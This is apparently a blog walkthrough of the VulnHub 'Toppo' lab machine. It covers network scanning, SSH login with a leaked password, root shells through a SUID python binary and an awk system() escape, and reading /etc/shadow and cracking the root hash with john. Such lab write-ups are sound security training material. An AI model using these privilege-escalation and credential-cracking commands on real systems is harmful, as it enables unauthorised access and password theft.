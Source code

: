 ```yaml
---
title: "Toppo"
date: 2021-05-05T08:22:12+05:30
draft: false
toc: false
images:
tags:
  - VulnHub
---
```


## Toppo VulnHub Walkthrough

### Recon & Enumeration

- `sudo netdiscover -i eth0 -r 10.0.2.0/24` 
- Toppo - `10.0.2.6` 
- `sudo rustscan -a 10.0.2.6 -- -sS -A` 

```
10.0.2.6:22    => OpenSSH 6.7p1 
10.0.2.6:80    => Apache httpd 2.4.10 
10.0.2.6:111   => rpcbind 
10.0.2.6:39086 => RPC 
```
- `nikto -h 10.0.2.6` 
```
+ Apache/2.4.10 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: 1925, size: 563f5cf714e80, mtime: gzip
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3268: /admin/: Directory indexing found.
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3268: /mail/: Directory indexing found.
+ OSVDB-3092: /mail/: This might be interesting...
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /package.json: Node.js package file found. It may contain sensitive information.
```

- `gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.0.2.6 -t 70 -x txt,php` 

```
/mail          (Status: 301) [Size: 303] [http://10.0.2.6/mail/]
/admin         (Status: 301) [Size: 304] [http://10.0.2.6/admin/]
/css           (Status: 301) [Size: 302] [http://10.0.2.6/css/]  
/manual        (Status: 301) [Size: 305] [http://10.0.2.6/manual/]
/js            (Status: 301) [Size: 301] [http://10.0.2.6/js/]    
/img           (Status: 301) [Size: 302] [http://10.0.2.6/img/]   
/vendor        (Status: 301) [Size: 305] [http://10.0.2.6/vendor/]
/LICENSE       (Status: 200) [Size: 1093] 
/server-status (Status: 403) [Size: 296] 
```

- `http://10.0.2.6/admin/notes.txt` 
```text
Note to myself :
I need to change my password :/ 12345ted123 is too outdated but the technology isn't my thing i prefer go fishing or watching soccer.
```
- The password used also has `ted` in it which could be username. 
- `ssh ted@10.0.2.6` => yes => `12345ted123` and we are logged in as `ted`! 
- `whoami` => `ted` 

### Privilege Escalation

- `find / -perm -4000 2>/dev/null` 
```
/sbin/mount.nfs
/usr/sbin/exim4
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/python2.7
/usr/bin/chsh
/usr/bin/at
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/procmail
/usr/bin/passwd
/bin/su
/bin/umount
/bin/mount
```
- `/usr/bin/python2.7` has SUID bit set! 
- [GTFOBins](https://gtfobins.github.io/gtfobins/python/) 
- `/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'` 
- It says: `sh: 0: Illegal option -p` so lets just remove `-p` and run it again. 
- `/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh")'` 
- And it worked! 
- `whoami && id`: 
```
root
uid=1000(ted) gid=1000(ted) euid=0(root) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)
```
- `cd /root && ls -la` 
- `cat flag.txt` 
```
Congratulations! there is your flag: 0wnedlab{p4ssi0n_c0me_with_pract1ce} 
```

### Privilege Escalation 

I found another method for privilege escalation when I went through some writeups after rooting this VM. 

- `ssh ted@10.0.2.6` => yes => `12345ted123` 
- `cat /etc/sudoers` => `ted ALL=(ALL) NOPASSWD: /usr/bin/awk` 
- [GTFOBins](https://gtfobins.github.io/gtfobins/awk/) 
- `sudo awk 'BEGIN {system("/bin/sh")}'` 
- When we run this, we get: `sudo: command not found`. So lets try without `sudo`. 
- `awk 'BEGIN {system("/bin/sh")}'` 
- And we get root shell. 

### Post Exploitation 

- `cat /etc/shadow` 
```
root:$6$5UK1sFDk$sf3zXJZ3pwGbvxaQ/1zjaT0iyvw36oltl8DhjTq9Bym0uf2UHdDdRU4KTzCkqqsmdS2cFz.MIgHS/bYsXmBjI0:17636:0:99999:7:::
``` 
- `cat /etc/passwd` 
```
root:x:0:0:root:/root:/bin/bash
``` 
- On Kali VM, make a directory `toppo` and then 2 files inside named `passwd` and `shadow` and then paste the `root` user lines from above in them respectively. (`/etc/passwd` in `passwd` and `/etc/shadow` in `shadow`). 
- Open terminal and: `unshadow passwd shadow > crack.txt` 
- We can also use `hashid` for `root` hash which tells us the hash format is `SHA-512 Crypt [JtR Format: sha512crypt]`: 
- `hashid -j '$6$5UK1sFDk$sf3zXJZ3pwGbvxaQ/1zjaT0iyvw36oltl8DhjTq9Bym0uf2UHdDdRU4KTzCkqqsmdS2cFz.MIgHS/bYsXmBjI0'` 
- `john crack.txt` (will use default wordlist but that is enough in this case) 
	```
	test123   (root)
	``` 
- Or we can crack just the hash without unshadowing: 
- `echo '$6$5UK1sFDk$sf3zXJZ3pwGbvxaQ/1zjaT0iyvw36oltl8DhjTq9Bym0uf2UHdDdRU4KTzCkqqsmdS2cFz.MIgHS/bYsXmBjI0' > crack.txt` 
- `john --wordlist /usr/share/john/password.lst --format=sha512crypt crack.txt` 
- So the credentials for `root` user are: `root:test123` 

